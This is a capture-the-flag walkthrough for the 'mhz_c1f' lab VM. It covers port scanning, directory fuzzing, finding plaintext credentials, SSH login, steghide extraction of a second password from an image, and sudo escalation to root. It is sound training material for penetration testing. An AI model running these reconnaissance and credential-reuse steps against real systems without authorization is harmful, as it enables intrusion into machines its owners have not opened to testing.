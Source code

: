 # mhz_cxf: c1f

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:12	(Unknown: locally administered)
192.168.56.100	08:00:27:f2:81:70	PCS Systemtechnik GmbH
192.168.56.125	08:00:27:5a:e1:83	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.125`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -sT -sV -sC -v -p- -oN nmap.out 192.168.56.125

Nmap scan report for 192.168.56.125
Host is up (0.00078s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 38:d9:3f:98:15:9a:cc:3e:7a:44:8d:f9:4d:78:fe:2c (RSA)
|   256 89:4e:38:77:78:a4:c3:6d:dc:39:c4:00:f8:a5:67:ed (ECDSA)
|_  256 7c:15:b9:18:fc:5c:75:aa:30:96:15:46:08:a9:83:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:5A:E1:83 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i tried to fuzz the system for any new files or directories :

```bash
root@kali: ffuf -w /root/wordlist/raft-medium-words.txt  -u http://192.168.56.125/FUZZ -e .txt,.php,.rar,.zip,.tar,.old,.js,.bak -fc 403

notes.txt               [Status: 200, Size: 86, Words: 16, Lines: 4, Duration: 1ms]
```

check notes.txt :

```text
1- i should finish my second lab 
2- i should delete the remb.txt file and remb2.txt
```

check `remb.txt` :

```text
first_stage:flagitifyoucan1234
```

it looks like a username and password.


### 3.Gaining Shell

Let's ssh to system using the username and password found previously :

```bash
root@kali: ssh first_stage@192.168.56.125
first_stage@192.168.56.125's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Apr 21 08:07:13 UTC 2024

  System load:  0.29              Processes:             91
  Usage of /:   39.9% of 9.78GB   Users logged in:       0
  Memory usage: 52%               IP address for enp0s3: 192.168.56.125
  Swap usage:   0%

23 packages can be updated.
0 updates are security updates.

$ id
uid=1001(first_stage) gid=1001(first_stage) groups=1001(first_stage)
```

### 4.Privilege Escalation (mhz_c1f)

first check /home directory and `/home/mhz_c1f/Paintings` :

```bash
'19th century American.jpeg'  'Russian beauty.jpeg'
'Frank McCarthy.jpeg'         'spinning the wool.jpeg'
```

these images should be transfered to you kali machine to check for any hidden data within them :

```bash
root@kali: scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'19th century American.jpeg' .
root@kali: scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'Russian beauty.jpeg' .
root@kali: scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'Frank McCarthy.jpeg'  .
root@kali: scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'spinning the wool.jpeg' .
```

check one by one by `steghide` and in the image `'spinning the wool.jpeg'`, you will find `remb2.txt` :

```bash
root@kali: teghide extract -sf 'spinning the wool.jpeg'
wrote extracted data to "remb2.txt".
```

and check the content of remb2.txt

```text
ooh , i know should delete this , but i cant' remember it 
screw me 

mhz_c1f:1@ec1f
```

there is another username and password

change the user to `mhz_c1f` :

```bash
first_stage@mhz_c1f:/home/mhz_c1f/Paintings$ su mhz_c1f
hz_c1f@mhz_c1f:~/Paintings$ id
uid=1000(mhz_c1f) gid=1000(mhz_c1f) groups=1000(mhz_c1f),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

### 5.Privilege Escalation (root)

Just check for sudo permissions :

```bash
mhz_c1f@mhz_c1f:~/Paintings$ sudo -l
Matching Defaults entries for mhz_c1f on mhz_c1f:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mhz_c1f may run the following commands on mhz_c1f:
    (ALL : ALL) ALL
```

and since we can run any command use the command below :

```bash
mhz_c1f@mhz_c1f:~/Paintings$ sudo su

root@mhz_c1f:/home/mhz_c1f/Paintings# id
uid=0(root) gid=0(root) groups=0(root)
```

this is how you can get root on this machine :)


